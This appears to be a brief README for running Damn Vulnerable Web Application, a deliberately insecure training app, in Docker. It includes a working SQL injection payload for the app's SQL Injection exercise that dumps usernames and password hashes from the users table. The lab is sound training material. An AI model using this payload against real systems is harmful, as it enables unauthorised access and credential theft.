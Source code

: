 # Damn Vulnerable Web Application

docker run --rm -p 80:80 --name dvwa milobahg/dvwa:latest

Click 'create/reset-db' on the first page, default difficulty is set to impossible (you may want to drop that down!)

Run the following command in the SQL Injection scenario to test:

%' and 1=0 union select null, concat(user,':',password) from users #
